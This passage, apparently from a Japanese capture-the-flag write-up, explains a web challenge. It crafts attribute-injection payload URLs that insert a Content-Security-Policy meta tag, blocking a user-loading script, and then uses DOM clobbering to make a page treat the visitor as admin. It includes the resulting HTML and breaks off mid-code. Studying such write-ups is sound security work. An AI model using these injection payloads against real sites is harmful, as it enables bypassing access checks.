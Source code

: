 ```javascript
user = {"id":"-1", "name": "guest", "type": "guest"}
```

`<script src="/api/getuser"></script>` は XSS 可能な箇所より後ろにあるので、もし `meta` 要素を使って `user.name` を `admin` に書き換えることができても、上書きされてしまいます。

これを防ぐために `/api/getuser` を読み込ませないようにする必要がありますが、そのひとつの方法として Content Security Policy (CSP) によるブロックが考えられます。CSP は HTTP レスポンスヘッダ以外でも `meta` 要素の `http-equiv` 属性を使えば指定でき、例えば `<meta http-equiv="Content-Security-Policy" content="script-src 'none'">` ですべてのスクリプトの実行をブロックさせることができます。

今回は jQuery と `if(user.name == "admin"){…}` の 2 つだけを実行できるようにしたいので、スクリプトのハッシュと `code.jquery.com` というドメイン名を `script-src` ディレクティブで許可しましょう。

`/marcololo?input=script-src%20%27sha256-bYN4krH0C61TIckMTVqjkOb3aCxs8G8sezFnSlL9G4E=%27%20https://code.jquery.com%22%20http-equiv=%22Content-Security-Policy` で以下のように `/api/getuser` の読み込みだけをブロックできる HTML を出力させることができました。

```html
<head>
    <meta charset="UTF-8">
    <link rel="stylesheet" href="/static/style.css" />
    <meta property="og:title" content="script-src 'sha256-bYN4krH0C61TIckMTVqjkOb3aCxs8G8sezFnSlL9G4E=' https://code.jquery.com" http-equiv="Content-Security-Policy">
    <script src="https://code.jquery.com/jquery-2.2.4.min.js"></script>
    <script src="/api/getuser"></script>
</head>

<script>

if(user.name == "admin"){
  $.get(location.hash.slice(1));
}else{
  document.write("u are not admin, fak off");
}

</script>
```

これで `user` は `undefined` になりましたが、どうすれば `user.name` を `admin` にすることができるのでしょう。このように未初期化のグローバル変数が参照されているシチュエーションでは [DOM Clobbering](https://diary.shift-js.info/dom-clobbering/) と呼ばれる手法が利用できます。これは `<meta id="test">` のような要素が存在しており、かつ `test` という変数が未初期化の場合には、`test` というグローバル変数に `document.getElementById('test')` で得られるものと同じオブジェクトが格納されているという手法です。

また、すべての要素は [`Element`](https://developer.mozilla.org/ja/docs/Web/API/Element) を継承しており、`Element` は [`name`](https://developer.mozilla.org/ja/docs/Web/API/Element/name) というプロパティを参照することでその要素の `name` 属性の値を参照することができるので、例えば `<meta id="user" name="neko">` という要素が存在している場合には `user.name` は `'neko'` という文字列を返すはずです。

これらを組み合わせて、`/marcololo?input=script-src%20%27sha256-bYN4krH0C61TIckMTVqjkOb3aCxs8G8sezFnSlL9G4E=%27%20https://code.jquery.com%22%20id=%22user%22%20name=%22admin%22%20http-equiv=%22Content-Security-Policy` で以下のように `if(user.name == "admin"){…}` を `true` にさせることができました。

```html
<head>
    <meta charset="UTF-8">
    <link rel="stylesheet" href="/static/style.css" />
    <meta property="og:title" content="script-src 'sha256-bYN4krH0C61TIckMTVqjkOb3aCxs8G8sezFnSlL9G4E=' https://code.jquery.com" id="user" name="admin" http-equiv="Content-Security-Policy">
    <script src="https://code.jquery.com/jquery-2.2.4.min.js"></script>
    <script src="/api/getuser"></script>
</head>

<script>

if(user.name == "admin"){
  $.get(location.hash.slice(1));
}else{
  document.write("u are not admin, fak off");
```